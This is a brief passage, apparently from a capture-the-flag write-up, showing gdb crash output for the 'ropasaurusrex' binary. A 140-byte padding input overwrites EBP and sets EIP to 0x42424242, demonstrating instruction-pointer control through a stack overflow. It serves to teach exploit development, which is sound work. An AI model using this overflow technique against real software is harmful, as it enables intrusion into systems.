

# EIP Control
Thread 1 "ropasaurusrex" received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x90
EBX: 0x0
ECX: 0xffed5320 ('A' <repeats 140 times>, "BBBB\334Cx\367\350\201\004\bk\204\004\b")
EDX: 0x100
ESI: 0xf7784000 --> 0x1b1db0
EDI: 0xf7784000 --> 0x1b1db0
EBP: 0x41414141 ('AAAA')
ESP: 0xffed53b0 --> 0xf77843dc --> 0xf77851e0 --> 0x0
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10213 (CARRY parity ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffed53b0 --> 0xf77843dc --> 0xf77851e0 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()